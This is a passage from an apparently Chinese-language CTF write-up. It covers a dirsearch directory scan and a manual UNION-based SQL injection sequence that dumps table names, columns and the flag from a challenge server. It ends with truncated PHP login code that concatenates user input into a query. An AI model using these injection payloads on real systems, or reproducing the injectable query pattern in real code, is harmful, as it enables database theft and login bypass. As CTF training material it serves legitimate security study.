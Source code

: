 ```
$ python3 ./dirsearch.py -u http://xxxx -e php
```

后面的-e参数可以根据题目情况修改, 如何识别一道题是用的什么环境呢

在chrome下安装这个插件, 即可查看大部分的题目后端语言

![](https://img-cjm00n.oss-cn-shenzhen.aliyuncs.com/20190903001256.png)

扫出来后内容如下

![](https://img-cjm00n.oss-cn-shenzhen.aliyuncs.com/20190903001354.png)

直接访问即可拿到flag



# baby_sqli

这里只给手注 payload ，sqlmap 的自己网上找

```
http://111.231.101.223:10003/?id=1' order by 2#
# no error

http://111.231.101.223:10003/?id=' union select 1,2#
# show 1

http://111.231.101.223:10003/?id=' union select group_concat(table_name),2 from information_schema.tables where table_schema=database()#
# show flag

http://111.231.101.223:10003/?id=' union select group_concat(column_name),2 from information_schema.columns where table_name='flag'#
# show id,flag

http://111.231.101.223:10003/?id=' union select group_concat(flag),2 from flag#
# show kap0k{5q1map_1s_The_B3st_+ool}
```

# 你的引号呢

打开有源码提示 `index.kk`

```php
<?php

  if($_POST['user'] && $_POST['pass']) {
    $conn = mysqli_connect($host, $username, $password) or die("could not connect:".mysqli_connect_error());
    mysqli_select_db($conn, $database_name) or die('can not use:'.mysqli_error($conn));

    $user = trim($_POST['user']);
    $pass = md5(trim($_POST['pass']));

    $sql="select user from ctf where (user='".$user."') and (pw='".$pass."')";
    // echo '</br>'.$sql;
    $query = mysqli_fetch_array(mysqli_query($conn, $sql));

    if($query[user]=="admin") {
      echo "<p>Logged in! flag: kap0k{**************************} </p>";
    }
    if($query[user] != "admin") {
      echo "<p>You are not admin!</p>";
    }
```